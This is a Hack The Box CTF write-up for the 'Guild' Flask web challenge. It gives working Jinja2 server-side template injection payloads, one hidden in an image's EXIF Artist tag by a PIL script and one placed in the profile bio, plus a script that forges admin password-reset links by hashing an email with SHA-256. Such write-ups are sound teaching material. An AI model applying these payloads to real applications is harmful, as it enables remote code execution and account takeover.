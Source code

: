 # Hack The Box CTF Writeup - Guild


##Challenge Description
The Guild challenge is a Flask-based web application with features like user verification, password reset, and user profiles. The goal is to exploit vulnerabilities such as Server-Side Template Injection (SSTI) in the file upload functionality, a weak password reset mechanism, and insufficient input validation to escalate privileges and gain access to the flag.

##Vulnerabilities and Exploitation
###1. Server-Side Template Injection (SSTI) in File Upload
The file upload functionality allows users to upload verification documents. These documents are processed and verified by an admin, but EXIF metadata embedded in the image files is not properly sanitized. The vulnerability arises from the use of Jinja2 template rendering in the server-side code, which allows arbitrary Python code execution via Server-Side Template Injection (SSTI).

Exploit Overview:
The EXIF "Artist" tag is processed and passed through render_template_string() which can evaluate Jinja2 expressions.
By injecting a malicious Jinja2 payload into the Artist EXIF tag, we can execute arbitrary Python code on the server.
Malicious Payload for EXIF Artist Tag:
python
```
b'{{ request.application.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read() }}'
```
This payload tries to execute cat flag.txt on the server, which returns the content of the flag.txt file.

Steps to Exploit:
Craft Malicious Image with Payload: Use a Python script to embed the malicious payload in the Artist tag of the image’s EXIF metadata.

```python
from PIL import Image
import piexif

# Create a simple image
img = Image.new('RGB', (100, 100), color='red')

# Define EXIF data with malicious payload in the "Artist" field
exif_dict = {
    "0th": {
        0x013B: b'{{ request.application.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read() }}',
    }
}

# Convert EXIF dictionary to bytes
exif_bytes = piexif.dump(exif_dict)

# Save the image with EXIF data
img.save("exploit.jpg", exif=exif_bytes)
```
Upload the Malicious Image: Upload the crafted image through the /verification endpoint.
![alt text]([http://url/to/img.png](https://github.com/BharathRam125/CTF-writeups/edit/main/HTB-CTF-Tryout2024/Guild/images/upload.png)
Admin Verification:

The admin will verify the uploaded image and the malicious payload will be executed on the server, revealing the flag.

###2. Insecure Input Validation in Bio Field
The bio field, which allows users to update their profile bio, does not properly validate inputs. Although there is a blacklist of certain dangerous characters, the blacklist-based approach can be easily bypassed. This flaw allows an attacker to inject malicious code into their bio, which could potentially lead to XSS or RCE.

Exploit Overview:
The bio input is not sanitized, and users can input harmful scripts or payloads that may be executed on the server.
Example Payload:
The attacker could input the following XSS payload in their bio:

```html
<td>{{User.query.filter_by(username="admin").first().email}}</td>
```
This would be executed when the admin views the user's profile or when the user views their own profile, revealing the vulnerability.

![alt text]([http://url/to/img.png](https://github.com/BharathRam125/CTF-writeups/edit/main/HTB-CTF-Tryout2024/Guild/images/bio.png)

![alt text]([http://url/to/img.png](https://github.com/BharathRam125/CTF-writeups/edit/main/HTB-CTF-Tryout2024/Guild/images/bio.png)

###3. Weak Password Reset Mechanism
The password reset functionality relies on SHA-256 hashes of email addresses to generate password reset links. This mechanism is vulnerable because the hash of the email is predictable and does not have any additional security, such as time-based expiration or randomness.

Exploit Overview:
We can generate the password reset link for any user, including the admin, by simply hashing their email address.
By intercepting the reset link, we can change the password of any user, including the admin.
Steps to Exploit:
Generate Reset Link: Using the admin's email, we generate the password reset link by hashing the email address with SHA-256.

```python
import hashlib

# Admin's email
email = "admin@guild.com"

# Generate SHA-256 hash of the email
hashed = hashlib.sha256(email.encode()).hexdigest()

# Construct the reset link
reset_link = f"http://<ip>:<port>/changepasswd/{hashed}"

print("Reset Link:", reset_link)
```

### Visit the reset link, set a new password, and gain access to the admin account.
### Tthen verify the uploaded image
![alt text]([http://url/to/img.png](https://github.com/BharathRam125/CTF-writeups/edit/main/HTB-CTF-Tryout2024/Guild/images/flag.png)


Steps to Exploit:
Update Bio:
Input the malicious payload in the bio field.
If the input validation is bypassed, the payload will be stored in the database and executed when rendered.
Flag Retrieval
To retrieve the flag:

Reset the admin password using the generated password reset link.
Log in as admin and verify the malicious image.
The injected payload in the EXIF "Artist" tag will execute and display the flag.
